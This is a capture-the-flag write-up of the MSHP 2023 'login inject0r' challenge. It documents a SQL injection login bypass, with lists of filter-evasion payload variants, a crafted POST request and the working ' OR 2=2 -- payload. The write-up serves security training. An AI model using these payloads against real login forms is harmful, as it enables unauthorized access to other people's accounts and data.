



# MSHP 2023 - [2] login inject0r

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023
**Challenge name:** [2] login inject0r
**Challenge description:**
> Do you remember the good 0l' days where noone knew about UNION SELECT or TIME statements? Get back to r00ts with this twisted easy SQL injection.
> UPDATE:
> ' OR 1=1 --i? WTF Adam?

**Challenge URL:** http://ctf.securitum.ninja/ctf2/
**Challenge category:** websec/sqlinj
**Challenge points:** 100

* * *

## Steps to solve
Website that we were presented with was basically login form on black background, with green text "The Secure Vault of SQL" on the left.

However, the source code was much more interesting. In the login form code, there were two comments specified for Adam (website developer) to notice. Guiding us towards *SQL injection attack*:


> My thought at the time:
> Did Adam disable whole string as it was presented, or did he use filters to disable arguments like: OR, equalization, sql comments (--)?

Indeed providing **' OR 1=1 --'** did not work, and resulted in the following error:

That hint made me think I should use odd numbers (which later turned out to be false).

Whatever Adam did, I procedeed to craft payloads in the most various ways possible - making sure they differ the most from **' OR 1=1 --'**. Changing case of letters in **OR** was obvious for me (maybe applied filter will not recognise the operation):
```
Basic SQL injection:
' oR 3333=3333 --'
' oR 3333=3333 --
' oR 3333=3333; --'
' oR 3333=3333; --

SQL concatenation:
' o' + 'R 3333=3333 --'
' o' + 'R 3333=3333 --
' o' + 'R 3333=3333; --'
' o' + 'R 3333=3333; --
' o' || 'R 3333=3333 --'
' o' || 'R 3333=3333 --
' o' || 'R 3333=3333; --'
' o' || 'R 3333=3333; --

SQL null-byte injection:
' o[%00]R 3333=3333 --'
' o[%00]R 3333=3333 --
' o[%00]R 3333=3333; --'
' o[%00]R 3333=3333; --

URL encoding:
%27%20oR%203333%3D3333%20--%27		#' oR 3333=3333 --'
%27%20oR%203333%3D3333%20--		#' oR 3333=3333 --
%27%20oR%203333%3D3333%3B%20--%27	#' oR 3333=3333; --'
%27%20oR%203333%3D3333%3B%20--		#' oR 3333=3333; --
etc.
```

To test them quicker than manually, I repeated originating POST request with changed username and password parameters, for example:
```http
POST /ctf2/ HTTP/1.1
Host: ctf.securitum.ninja
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ctf.securitum.ninja
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://ctf.securitum.ninja/ctf2/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username='+oR+3333=3333+--'&password='+oR+3333=3333+--'
```

Nothing worked! I tried *sqlmap*, but it also failed.

I asked about this issue on *MSHP Discord server*, and fellow helper guided me towards checking even numbers.
I tested all previous payloads with **4444=4444**, but it still didn't work!

At the end I was already tired of sitting, but I gave a chance testing various combinations with **2=2**... and bam!
```
' OR 2=2 --
```
it worked! there I was, greeted with flag in front of my eyes (kind of):


```
Welcome, hacker! Your flag is: }1#7m+UvR8Wr*g6@{_PHSM
```

Also, worth mentioning is the fact that this *SQL injection attack* worked for **both** parameters **username** and **password**, which means that the conditional statement in SQL formula is the same for them.

Last step to retrieve the flag was reversing the string in python:
```python
preflag = "}1#7m+UvR8Wr*g6@{_PHSM"
flag = preflag[::-1]
print(flag)
```

```shell
$ python3 flag.py
MSHP_{@6g*rW8RvU+m7#1}
```

**FLAG:** MSHP_{@6g*rW8RvU+m7#1}

## Additional comments
This challenge took the most time from me in this whole competition, and I wasn't happy with the fact that the **ONLY** two working payloads were: **' OR 2=2 --'** and **' OR 2=2 --**
It was a major issue for me, because my payloads were based on different case **oR/or**.